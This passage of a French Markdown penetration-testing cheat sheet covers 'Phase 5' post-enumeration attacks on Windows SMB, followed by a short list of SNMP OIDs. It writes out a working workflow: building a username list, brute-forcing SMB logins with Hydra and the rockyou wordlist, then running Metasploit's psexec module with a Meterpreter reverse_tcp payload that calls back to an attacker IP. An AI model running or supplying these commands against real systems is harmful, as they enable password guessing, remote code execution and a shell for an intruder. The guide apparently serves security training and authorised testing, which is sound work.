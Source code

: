
## ⚔️ Phase 5 : Attaques Post-Énumération

### Création de listes d'utilisateurs
```bash
# Sauvegarder les utilisateurs trouvés
echo "administrator" > users.txt
echo "admin" >> users.txt
echo "guest" >> users.txt
```

### Brute force SMB avec Hydra
```bash
# Attaque par dictionnaire sur SMB
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt <target> smb

# Avec une wordlist Metasploit
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target> smb
```

### Exploitation avec Metasploit
```bash
# Lancement de Metasploit
msfconsole -q

# Configuration du module PSExec
use exploit/windows/smb/psexec
set RHOSTS <target>
set SMBUSER <username>
set SMBPASS <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
exploit
```

---

## 📊 OIDs Utiles

### OIDs Système
```
1.3.6.1.2.1.1.1.0    # Description du système
1.3.6.1.2.1.1.3.0    # Uptime du système
1.3.6.1.2.1.1.4.0    # Contact système
1.3.6.1.2.1.1.5.0    # Nom du système
1.3.6.1.2.1.1.6.0    # Localisation
```

### OIDs Réseau
```
1.3.6.1.2.1.2.2.1.2  # Interfaces réseau
1.3.6.1.2.1.4.20.1.1 # Adresses IP
1.3.6.1.2.1.4.21.1.1 # Table de routage
```
